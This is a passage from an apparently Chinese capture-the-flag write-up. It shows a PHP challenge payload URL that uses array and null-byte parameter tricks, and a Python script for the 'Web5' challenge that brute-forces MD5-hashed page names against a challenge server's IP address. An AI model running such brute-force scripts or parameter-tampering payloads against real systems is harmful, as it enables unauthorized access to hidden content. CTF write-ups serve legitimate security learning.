 ```

	?>
payload :
http://localhost:8888/sys/test.php?foo={"bar1":"2017adsad","bar2":[[0],1,2,3,4],"c":3,"d":4,"e":5}&&cat[1][]="1"&&dog=％00&&cat[0]="htctf2016"
```

------

## Web5


slash+3位数字

爆破一下

```
#!usr/bin/python
# -*- coding:utf-8 -*-
__Author__ = 'moxiaoxi'
__Filename__ = 'brute.py' 

'''
爆破
'''
import hashlib
from urllib import request
diction = {}
l = []
url = []
for x in range(10):
    diction[x]=str(x)

for x in range(10):
    for i in range(10):
        for j in range(10):
            l.append('slash'+diction[x]+diction[i]+diction[j]) 

for i in range(1000):
    md5 = hashlib.md5()
    md5.update(l[i].encode('utf-8'))
    url.append("http://218.76.35.75:20115/index.php?page="+md5.hexdigest())
    print("test %d "%i)
    with request.urlopen(url[i]) as test:
        if '文件不存在' not in test.read().decode('utf-8'):
            print('Yep, We got it ! test:%d:'%i+url[i])
            break
            
```
http://218.76.35.75:20115/index.php?page=b74d94c647115ba40b3acd8e12b4e122


----
